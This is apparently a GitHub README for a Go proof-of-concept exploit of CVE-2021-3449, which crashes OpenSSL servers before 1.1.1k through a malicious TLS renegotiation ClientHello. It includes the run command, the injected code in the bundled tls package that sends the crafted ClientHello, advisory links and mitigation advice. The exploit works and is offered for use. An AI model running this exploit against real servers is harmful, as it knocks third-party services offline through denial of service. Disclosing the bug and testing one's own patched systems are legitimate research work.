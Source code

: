 # CVE-2021-3449 OpenSSL <1.1.1k DoS exploit

Usage: `go run . -host hostname:port`

This program implements a proof-of-concept exploit of CVE-2021-3449
affecting OpenSSL servers pre-1.1.1k if TLSv1.2 secure renegotiation is accepted.

It connects to a TLSv1.2 server and immediately initiates an RFC 5746 "secure renegotiation".
The attack involves a maliciously-crafted `ClientHello` that causes the server to crash
by causing a NULL pointer dereference (Denial-of-Service).

## References

- [OpenSSL security advisory](https://www.openssl.org/news/secadv/20210325.txt)
- [cve.mitre.org](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-3449)
- [Ubuntu security notice](https://ubuntu.com/security/notices/USN-4891-1) (USN-4891-1)
- [Debian security tracker](https://security-tracker.debian.org/tracker/CVE-2021-3449)
- [Red Hat CVE entry](https://access.redhat.com/security/cve/CVE-2021-3449)

> This issue was reported to OpenSSL on 17th March 2021 by Nokia. The fix was
> developed by Peter Kästle and Samuel Sapalski from Nokia.

## Mitigation

The only known fix is to update `libssl1.1`.

Even though some applications use hardened TLS configurations by default that disable TLS renegotiation,
they are still affected by the bug if running an old OpenSSL version.

## Exploit

`main.go` is a tiny script that connects to a TLS server, forces a renegotiation, and disconnects.

The exploit code was injected into a bundled version of the Go 1.14.15 `encoding/tls` package.
You can find it in `handshake_client.go:115`. The logic is self-explanatory.

```go
// CVE-2021-3449 exploit code.
if hello.vers >= VersionTLS12 {
    if c.handshakes == 0 {
        println("sending initial ClientHello")
        hello.supportedSignatureAlgorithms = supportedSignatureAlgorithms
    } else {
        // OpenSSL pre-1.1.1k runs into a NULL-pointer dereference
        // if the supported_signature_algorithms extension is omitted,
        // but supported_signature_algorithms_cert is present.
        println("sending malicious ClientHello")
        hello.supportedSignatureAlgorithmsCert = supportedSignatureAlgorithms
    }
}
```

